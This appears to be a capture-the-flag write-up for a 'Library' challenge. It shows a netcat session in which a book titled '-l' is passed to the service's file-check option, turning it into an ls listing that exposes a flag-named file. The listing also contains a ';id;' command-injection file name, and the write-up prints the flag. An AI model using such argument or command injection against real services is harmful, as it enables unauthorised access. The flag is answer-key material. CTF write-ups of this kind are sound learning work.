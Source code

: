 # Library - MISC

## Description

Built a book library, however my friend says that i made a nasty mistake!

Author: zAbuQasem

nc 172.190.120.133 50003

## Solution

This was a fun challenge that gave us a prompt in a custom library management software. Two interesting options are `7.Save Book` and `8.Check File Presence`. After reviewing the sorce code we see that with option 8 there might be possibility for some command injection. Some testing showed that only the `ls` command could be executed so if we gave it the `-l` flag, maybe we could see something interesting in the filesystem.

```bash
┌──(kali㉿kali)-[~/Desktop/Library]
└─$ nc 172.190.120.133 50003

Library Management System
1. Add Member
2. Add Book
3. Display Books
4. Search Book
5. Check Out Book
6. Return Book
7. Save Book
8. Check File Presence
0. Exit
Enter your choice (0-8): 7

Book Manager:
1. Save Existing
2. Create new book
Enter your choice (1-2): 2
Enter book title: -l
Enter book author: a
Enter book ISBN: a
Enter number of copies: 1
Book saved successfully

Library Management System
1. Add Member
2. Add Book
3. Display Books
4. Search Book
5. Check Out Book
6. Return Book
7. Save Book
8. Check File Presence
0. Exit
Enter your choice (0-8): 8
Enter the name of the book (file) to check: -l
total 44
-rw-r--r--    1 challeng challeng         9 Feb  9 22:33 -l
-rw-r--r--    1 challeng challeng         9 Feb  9 19:37 0xL4ugh{TrU5t_M3_LiF3_I5_H4rD3r!}
-rw-r--r--    1 challeng challeng         9 Feb  9 17:18 ;id;
-rw-r--r--    1 challeng challeng         9 Feb  9 17:27 a
-rw-r--r--    1 challeng challeng         9 Feb  9 19:11 alo
-rw-rw-r--    1 root     root          8975 Jan 31 22:43 challenge.py
-rw-rw-r--    1 root     root           103 Jan 31 22:19 exec.sh
-rw-r--r--    1 challeng challeng         9 Feb  9 18:07 thetales of test
-rw-r--r--    1 challeng challeng        11 Feb  9 20:53 {library}
The book is not found in the current directory.
```

Looks like there was a file named with the flag format and if we try it that seems to work. My guess is that the file needed to be creaeted with the {FLAG} variable as the name and then we could read the file system to get the flag. Cheers to who ever figured it out and got the file created with the flag name!

Flag: `0xL4ugh{TrU5t_M3_LiF3_I5_H4rD3r!}`
